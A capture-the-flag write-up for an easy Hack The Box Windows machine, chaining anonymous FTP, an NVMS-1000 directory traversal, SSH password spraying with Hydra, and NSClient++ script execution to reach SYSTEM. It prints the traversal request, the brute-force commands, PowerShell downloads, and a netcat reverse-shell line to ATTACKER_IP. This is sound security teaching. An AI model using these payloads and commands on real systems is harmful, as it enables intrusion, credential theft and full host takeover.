This box is rated easy difficulty on HTB. It involves us discovering the location of a password list over anonymous FTP login, and utilizing a vulnerable NVMS-1000 instance to read that file. Spraying those credentials for two users previously enumerated gives us a shell on the box via SSH. Gathering credentials for the NSCLient++ user in a `.ini` file allows us to port forward the internal web server and authenticate as that account. Finally, we upload a malicious batch script that will be executed by the server which is running as the LocalAdmin, giving us a  shell as `NT AUTHORITY\SYSTEM`.

## Scanning & Enumeration
As always I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -sCV 10.129.227.77 -oN fullscan-tcp 

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-13 18:07 CDT
Nmap scan report for 10.129.227.77
Host is up (0.055s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp   open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  napster?
8443/tcp open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -51s
| smb2-time: 
|   date: 2026-03-13T23:08:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.19 seconds
```

### Fuzzing Directories
Looks like a Windows machine with quite a few ports open. I'll focus mainly on FTP, HTTP, and SMB as they usually hold the most information and may lead to getting a shell or credentials. Since there is a web server, I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the site.

```
$ ffuf -u http://10.129.227.77/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt --fs 118

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.227.77/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 118
________________________________________________

:: Progress: [220560/220560] :: Job [1/1] :: 304 req/sec :: Duration: [0:16:02] :: Errors: 21329 ::
```

Checking the landing page on port 80 shows a login panel for NVMS-1000, which  is a video management system (VMS) used to monitor and manage CCTV infrastructure such as DVRs, NVRs, and IP cameras from a centralized interface. It's typically deployed by security teams to view live camera feeds, review recordings, and configure surveillance devices across a network.



We're unable to login with the default credentials of `admin:123456` and verbose errors are disabled, meaning we'll have to enumerate other services until further notice.

### FTP Anon Login
Nmap's Default scripts show that FTP allows for anonymous logins, so I connect. Inside is a Users directory with two accounts named Nathan and Nadine, each one having a text file that I transfer over.



They contain the following:

```
$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint

$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards, Nadine
```

## Exploitation
Judging from Nadine's message to Nathan, it looks like we can grab his password from a text file left on his Desktop. However, we'd first need a initial access to the box's filesystem via a shell or some type of file disclosure vulnerability, either way I keep that in mind for the future.

### NVMS-1000 Directory Traversal
We can also see that Nadine never got around to removing public access to NVMS, hinting that we may be able to perform certain actions or snoop around the service. Apart from other writeups on this box, Googling about "NVMS Public Access" leads me to finding this [ExploitDB page](https://www.exploit-db.com/exploits/47774) that discloses a directory traversal vulnerability in NVMS-1000 instances.

This exists because the application fails to properly validate or sanitize user-supplied file paths before accessing files on the server. Specifically, the web service accepts file path parameters (often in download or log-viewing endpoints) and directly concatenates them into filesystem paths without filtering traversal sequences like `../`.

Testing this out by providing the `windows.ini` file, which is certainly on the system, returns the contents and proves we're able to read any files that the server has access to. I use the following HTTP request template to carry out this step.

```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: MACHINE_IP
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```



### SSH Credentials
Awesome, we already know that Nadine placed a passwords.txt file in Nathan's Desktop directory, so let's try to grab that in order to authenticate over SSH.

```
/../../../../../../../../../../../../users/nathan/desktop/passwords.txt
```



This returns seven passwords which we can use to spray against both Nathan and Nadine's account, hoping to validate any of these; I save them to a file and use hydra to brute-force these over SSH.

```
$ hydra -l nadine -P passwords.txt ssh://MACHINE_IP

$ hydra -l nathan -P passwords.txt ssh://MACHINE_IP
```



That gets a hit on Nadine's account and allows us to grab a shell on the box, at which point we can grab the user flag and start internal enumeration towards either Nathan or administrator accounts.



## Privilege Escalation
Light enumeration on the filesystem shows that we don't have access to many things, including any other user's home directories, web server logs, or interesting folders. Referring back to the notes gathered over FTP, I find that Nadine had already locked down the NSClient++ (running on port 8443) and that navigating to it in our browser before would block any authentication attempts. Perhaps we'll have access to it now and be able to login with the password list.

### Password in nsclient.ini
Before going further, since it's a web server with auth checking, there may be hardcoded credentials in a config file placed in its directory. Some quick research shows that it resides at `C:\Program Files\NSClient++` and the `nsclient.ini` file should have configuration settings in it.



### Accessing NSClient
This will allow us to authenticate directly on that server as the nsclient user, however another lines shows that only localhost connection are allowed. Since we already have SSH credentials, I terminate my current session and reconnect while providing a the `-L` flag to forward traffic from port 8443 on the remote machine to the corresponding one on my local box.

```
$ ssh nadine@MACHINE_IP -L 8443:127.0.0.1:8443
```

Now we can navigate to port 8443 on localhost in our browser to login with those newfound credentials.



NSClient++ is a monitoring agent for Windows systems that allows external monitoring platforms to collect system metrics and execute checks remotely. It's commonly used with tools like Nagios to monitor services, performance, and system health across enterprise environments.

### Executing Script as LocalAdmin
The key thing here is that we have access to a console which is meant to execute certain commands as whoever is running the server. Fortunately, this service requires a lot of privileges and runs as the LocalSystem Admin by default, meaning that grabbing a reverse shell via the command console will grant us access to the box with extremely high permissions.

I couldn't find any great PoC pages for this, so I end up referring to [NSClient's documentation pages](https://nsclient.org/docs/howto/run_commands/) in order to find out how to run commands. To exploit this, I first create a malicious script which will be ran from the console.

```
\programdata\nc.exe ATTACKER_IP 9001 -e cmd
```

That simple line will use the Netcat binary to force a connection back to my local machine and spawn a CMD shell. Note that we will have to upload nc.exe as it's not already installed.

```
$ cd C:\ProgramData

$ powershell wget http://10.10.14.243/nc.exe -outfile nc.exe

$ powershell wget http://10.10.14.243/totallysafe.bat -outfile script.bat
```



Once everything is prepared, we must associate our uploaded script with a command in the NSClient++ GUI. I go to **Settings -> External Scripts -> Scripts** and click the green _"Add a Simple Script"_ button. We should create an alias and specify the script to point towards our malicious one on the filesystem.



Once that's added, we need to save these changes to the disk by displaying the Changes dropdown tab in the header and hitting Save Configuration. We can execute it one of two ways, either by scheduling it to be ran in an interval and specifying that it's a command, or directly from the Console tab by giving it the alias. I go with the ladder as it's very simple.



There we have it, grabbing the final flag under the Administrator's Desktop folder completes this challenge. This box was pretty straight-forward, so I'm not too sure why it's rated so poorly (maybe the port forwarding portion). Either way I enjoyed it and hope that this was helpful to anyone following along or stuck and happy hacking!
